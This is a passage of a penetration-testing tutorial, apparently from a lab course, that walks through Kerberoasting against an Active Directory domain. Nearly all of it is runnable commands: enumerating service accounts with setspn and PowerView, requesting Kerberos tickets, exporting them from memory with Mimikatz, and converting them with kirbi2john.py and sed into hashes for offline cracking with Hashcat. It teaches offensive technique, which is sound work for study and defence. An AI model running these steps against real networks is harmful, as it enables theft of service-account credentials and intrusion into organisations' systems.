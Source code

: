 Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting Tickets from Memory with Mimikatz

```shell
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export 
```

#### Preparing the Base64 Blob for Cracking

```shell
echo "<base64 blob>" |  tr -d \\n 
```

#### Placing the Output into a File as .kirbi

```shell
cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.

#### Extracting the Kerberos Ticket using kirbi2john.py

```shell
python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

#### Modifiying crack_file for Hashcat

```shell
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

## Automated / Tool Based Route

#### Using PowerView to Extract TGS Tickets

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
